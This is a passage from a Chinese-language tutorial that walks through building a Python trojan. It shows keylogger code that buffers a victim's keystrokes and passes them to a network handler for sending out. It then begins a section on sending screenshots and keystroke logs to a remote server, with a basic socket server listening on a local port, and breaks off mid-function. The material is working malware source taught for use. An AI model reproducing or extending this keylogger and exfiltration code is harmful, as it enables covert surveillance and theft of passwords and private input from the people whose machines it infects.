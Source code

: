 ```
        elif in_str == 'Left':
            # 第一次执行left操作时，从缓存区最右边开始计算
            if postion[0] is None:
                postion[0] = len(input_str_content) - 2
            else:
                postion[0] = postion[0] - 1
            if postion[0] < 0:
                print u"已经到达当前缓冲区开头"
                postion[0] = 0
        elif in_str == 'Right':
            # 第一次执行right操作时，从缓存区最右边开始计算
            if postion[0] is None:
                postion[0] = len(input_str_content) - 1
            else:
                postion[0] = postion[0] + 1

            if postion[0] >= len(input_str_content):
                print u"已经到达当前缓冲区末尾"
                postion[0] = len(input_str_content) - 1
        else:
            if postion[0] is None:
                postion[0] = 0
            input_str_content.insert(postion[0] + 1, in_str)
            postion[0] = postion[0] + 1
        # 缓存区已经满了，此时需要将缓冲区的内容处理
        # net_word_handler是进行内容处理的函数，保存到本地文件，
        # 也可以进行网络传输, 取决于传入的处理函数
        if len(input_str_content) >= str_cached_length:
            ret = net_work_handler("".join(input_str_content))
            if not ret:
                print u"网络错误，无法发送键盘记录文件,缓冲区已满, 程序结束"
                sys.exit(-2)
            input_str_content[:] = []
        # TODO content_length + 1
    return char_handler

```

#### 5.2.5 数据进行网络传输

根据前面的步骤我们已经获取我们所需要的屏幕截图和键盘输入的数据，接下来我们需要将这些数据发送到指定的服务器。在这里需要了解下 Python 的网络编程的相关知识。首先介绍`服务端`的编程的基本步骤:

- 建立一个`socket`套接字对象
- 绑定这个套接字到服务器的 ip 和端口号
- 设置最大链接数量
- 接受客户端的链接
- 与客户端进行通讯
- 关闭相关资源

用 Python 实现的代码如下，这是一个最基本服务器的实现，该木马程序中的示例服务器也是基于这个模型进行的。

```
import socket
import json

# 开启ip和端口
ip_port = ('127.0.0.1', 8888)
# 生成一个句柄
sk = socket.socket()
# 绑定ip端口
sk.bind(ip_port)
# 最多连接数
sk.listen(5)
# 自定义的数据处理函数
def data_handle(data):
```